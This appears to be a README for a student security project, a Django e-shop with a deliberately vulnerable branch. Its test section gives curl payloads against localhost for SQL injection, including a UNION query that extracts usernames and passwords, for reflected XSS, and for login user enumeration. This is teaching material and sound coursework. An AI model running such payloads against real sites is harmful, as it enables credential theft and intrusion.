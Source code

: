 ## Quick Start

### Setup
```bash
# Clone the repository
git clone [repository-url]
cd CDS204_Project3

# Switch to vulnerable branch
git checkout vulnerable

# Create virtual environment
python3 -m venv venv
source venv/bin/activate  # On Windows: venv\Scripts\activate

# Install dependencies
cd secure_eshop
pip install -r requirements.txt

# Run migrations
python manage.py migrate

# Create test user (optional)
python manage.py createsuperuser

# Run the server (intentionally without HTTPS)
python manage.py runserver
```

### Testing Vulnerabilities

#### SQL Injection Test
```bash
# Basic test
curl "http://localhost:8000/catalog/?q=' OR '1'='1"

# Extract users
curl "http://localhost:8000/catalog/?q=' UNION SELECT NULL,username,password,NULL,NULL,NULL,NULL FROM auth_user--"
```

#### XSS Test
```bash
# Reflected XSS
curl "http://localhost:8000/catalog/?q=<script>alert('XSS')</script>"
```

#### Authentication Test
```bash
# User enumeration
curl -X POST http://localhost:8000/login/ \
  -d "username=admin&password=wrong" \
  -H "Content-Type: application/x-www-form-urlencoded"
```
